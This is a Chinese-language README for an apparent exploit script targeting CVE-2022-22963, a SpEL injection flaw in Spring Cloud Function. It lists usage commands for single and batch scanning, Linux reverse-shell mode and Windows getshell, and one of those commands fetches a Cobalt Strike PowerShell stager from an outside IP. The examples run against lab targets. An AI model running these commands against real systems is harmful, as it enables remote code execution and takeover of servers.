







# Spring Cloud Function SPEL表达式注入漏洞（CVE-2022-22963）

>Spring框架为现代基于java的企业应用程序(在任何类型的部署平台上)提供了一个全面的编程和配置模型。
>
>Spring Cloud 中的 serveless框架 Spring Cloud Function 中的 RoutingFunction 类的 apply 方法将请求头中的“spring.cloud.function.routing-expression”参数作为 Spel 表达式进行处理，造成Spel表达式注入，攻击者可通过该漏洞执行任意代码。
>
>影响范围：3.0.0.RELEASE <= Spring Cloud Function <= 3.2.2
>
>**脚本仅供学习使用，如作他用所承受的法律责任一概与作者无关**

## 1.installation(安装模块)

```shell
pip3 install -r requirements.txt	
```

## 2.Usage(用法)

`python3 spring-cloud-function-rce.py -h`



>-u 指定单个url进行dnslog测试
>
>-e 指定反弹shell模式
>
>-s 指定目标主机操作系统,默认linux,参数为win/linux **配合-i和-c参数使用**

## 3.example(使用案例)

### 3.1 单个url测试

`python3 spring-cloud-function-rce.py -u "http://192.168.50.222:8080/"`



### 3.2 批量url测试

`python3 spring-cloud-function-rce.py -f "urls.txt"`



>- 123.58.236.76:47874是vulfocus的docker靶场，没有安装nslookup命令，所以dnslog测试失败
>- 批量url地址一定要是网站根目录，http://192.168.50.222:8080/ 是本地搭建靶场的根目录，加了test目录会导致poc失效

### 3.3 linux靶机getshell

`python3 spring-cloud-function-rce.py -u "http://192.168.50.222:8080/" -e -i "vps的ip地址:5566"`



### 3.4 windows靶机getshell

`python3 spring-cloud-function-rce.py -u "http://192.168.50.222:8080/" -e -s "win" -c "http://1.117.155.217/21918"`

> -c指定cs生成powershell上线代码的地址，必须配合 -s "win"使用





## 4. 靶场

### 4.1 idea自行搭建

### [参考地址](https://www.anquanke.com/post/id/271167)

### 4.2 docker靶场

[vulfocus](http://vulfocus.io/)

